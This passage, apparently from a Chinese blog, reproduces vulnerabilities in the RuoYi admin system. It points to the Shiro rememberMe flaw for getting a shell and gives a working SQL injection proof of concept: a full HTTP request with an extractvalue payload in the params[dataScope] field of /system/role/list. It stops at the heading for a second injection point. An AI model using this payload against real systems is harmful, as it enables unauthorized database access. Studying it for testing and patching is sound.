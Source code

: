 ### 漏洞简介

若依默认使用shiro组件，所以可以试试shiro经典的rememberMe漏洞来getshell。

### 漏洞复现

直接使用Liqunkit工具梭哈
![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826093610666-549143200.png)

## 若依后台存在多处sql注入漏洞

### 漏洞简介

若依后台存在多个SQL注入点

### 漏洞复现

进入后台后，拦截角色管理页面的请求包
![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826093748138-478436140.png)
POC：

```makefile
POST /system/role/list HTTP/1.1
Host: 127.0.0.1
Content-Length: 179
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close

pageSize=&pageNum=&orderByColumn=&isAsc=&roleName=&roleKey=&status=&params[beginTime]=&params[endTime]=&params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```

![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826093843092-356054224.png)
第二个sql注入点：角色编辑接口
POC:
